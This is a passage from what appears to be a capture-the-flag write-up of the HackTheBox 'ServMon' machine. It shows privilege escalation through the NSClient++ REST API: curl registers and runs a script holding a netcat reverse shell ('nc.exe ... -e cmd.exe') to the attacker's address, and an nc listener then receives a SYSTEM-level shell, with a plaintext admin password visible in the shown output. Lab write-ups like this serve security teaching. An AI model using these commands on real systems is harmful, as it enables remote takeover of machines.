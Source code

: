 
follow the instructions from https://docs.nsclient.org/api/rest/queries/#command-execute and another terminal to access netcat

```
nadine@SERVMON c:\Temp>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/
scripts/me.bat --data-binary "C:\Temp\nc.exe 10.10.14.15 443 -e cmd.exe"
Enter host password for user 'admin':ew2x6SsGTxjRwXOT
Added me as scripts\me.bat
nadine@SERVMON c:\Temp>curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/me/commands
/execute?time=3m
Enter host password for user 'admin':ew2x6SsGTxjRwXOT

```

![10](/assets/images/htb-machine-servmon/10.png)

Let's create a listener using netcat on our local machine.

```
root@twsterlab:/twseptian# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:49686.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Administrator

08/04/2020  22:55    <DIR>          .
08/04/2020  22:55    <DIR>          ..
08/04/2020  23:12    <DIR>          3D Objects
08/04/2020  23:12    <DIR>          Contacts
08/04/2020  23:12    <DIR>          Desktop
08/04/2020  23:12    <DIR>          Documents
08/04/2020  23:12    <DIR>          Downloads
08/04/2020  23:12    <DIR>          Favorites
08/04/2020  23:12    <DIR>          Links
08/04/2020  23:12    <DIR>          Music
14/01/2020  19:10    <DIR>          OneDrive
08/04/2020  23:12    <DIR>          Pictures
08/04/2020  23:12    <DIR>          Saved Games
08/04/2020  23:12    <DIR>          Searches
08/04/2020  23:12    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)  27,852,333,056 bytes free

C:\Users\Administrator>dir
```